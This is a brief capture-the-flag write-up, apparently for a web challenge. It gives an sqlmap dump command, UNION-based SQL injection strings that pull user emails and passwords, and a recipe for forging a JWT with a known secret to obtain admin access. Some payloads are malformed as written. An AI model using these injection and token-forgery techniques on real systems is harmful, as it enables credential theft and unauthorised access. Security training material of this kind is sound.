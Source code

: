 # Using SQL map

sqlmap -u cyberhacktivators.club:33010?term=1 -a

You will get the users and the routes (unique login route for each user)

# Using Union based sql
Find if sql is working then see the sqlite_information table for all table info
You will get the users and the routes table there.

' Union path description from routes --'
' Union email description from users --'
' Union password description from users --'

After that in the login you will see the login page, login using the email and password from users table.
You will get the session jwt token and it has another route and a type of user, change the type to admin and the jwt secret key is 'your-secret-key'.

In the new route you will get the flag
